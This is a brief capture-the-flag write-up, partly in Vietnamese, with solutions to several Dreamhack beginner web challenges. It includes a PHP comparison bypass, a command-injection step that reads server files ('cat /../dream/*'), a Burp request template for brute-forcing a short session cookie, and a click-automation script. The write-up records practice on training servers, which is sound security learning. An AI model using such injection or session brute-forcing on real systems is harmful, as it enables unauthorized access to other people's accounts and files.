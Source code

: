 # dreamhack.io
## php7cmp4re
```
input1=7.:&inpit2=7:
```
## phpreg
```
step1: input1=dnyanyangng0310&input2=1@43319!+1+13 
step2: cat /../dream/*
```
## ex-reg-ex
```
import re
i = "drabcdde123am@xyz.com"
m = re.match(r'dr\w{5,7}e\d+am@[a-z]{3,7}\.\w+', i)
print(m)
```
## Flying Chars
- Read src for win
## simple-web-request
- Read src and request for win

![image](https://github.com/user-attachments/assets/07441982-8730-4cdc-9491-e224b34fb5e9)

![image](https://github.com/user-attachments/assets/e46ec44a-fb38-41af-b5e5-b6834625743e)

## devtools-sources
- Dont need devtools i need a penguin
```grep -r "DH{" *```
## session

- Ở đây server phân biệt người dùng này với người dùng khác qua session_id. 
- Tuy nhiên độ dài của nó khá ngắn nên chúng ta có thể bf ra được.

![image](https://github.com/user-attachments/assets/4ed8bf4a-4263-49e8-ae56-b7653d5f75f7)

- Mình sẽ dùng brup để bf:

```
GET / HTTP/1.1
Host: host3.dreamhack.games:10491
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US
Referer: http://host3.dreamhack.games:10491/login
Accept-Encoding: gzip, deflate, br
Cookie: sessionid=§i§
Connection: keep-alive
```

![image](https://github.com/user-attachments/assets/f65d445a-37a8-4552-bcba-6c885ca35c5b)

![image](https://github.com/user-attachments/assets/b7f2f260-2c44-427b-8f80-e6d8a63472f4)

## Carve Party
- Click bằng tay đi.
```js
for(i=0; i<=10000; i++){
 $('#jack-target').trigger("click")
}
```
